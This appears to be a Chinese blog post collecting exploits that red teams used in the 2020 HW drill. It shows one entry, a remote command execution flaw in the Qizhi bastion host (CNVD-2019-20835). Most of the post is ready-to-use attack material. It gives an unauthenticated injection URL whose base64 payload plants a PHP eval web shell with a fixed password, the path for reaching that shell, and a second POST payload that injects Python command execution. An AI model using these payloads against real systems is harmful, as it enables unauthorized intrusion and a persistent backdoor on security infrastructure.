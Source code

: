 ```yaml
---
title: 2020 HW - 漏洞汇总
date: 2020-10-10 10:54:18
categories:
- Vulnerabilities
- WEB
tags:
- RCE
- SQL Injection
---
```

## Introduction

&emsp;&emsp;2020年HW期间红队使用的热门漏洞汇总。



## Vulnerabilities

### 齐治堡垒机前远程命令执行漏洞 [CNVD-2019-20835]

#### NO.1

&emsp;&emsp;假设10.20.10.10为堡垒机的IP地址。

* 访问`http://10.20.10.11/listener/cluster_manage.php`返回"OK"(未授权无需登录)

* 执行[https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}](https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS})链接即可getshell，执行成功后，生成PHP一句话马`/var/www/shterm/resources/qrcode/lbj77.php`密码`10086`。

![](/img/HW-Vuln/HW1.png)

* 访问地址为`https://10.20.10.10/shterm/resources/qrcode/lbj77.php`(密码`10086`)

#### NO.2

&emsp;&emsp;据说还有另外一个版本是java的：

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```

![](/img/HW-Vuln/HW2.png)
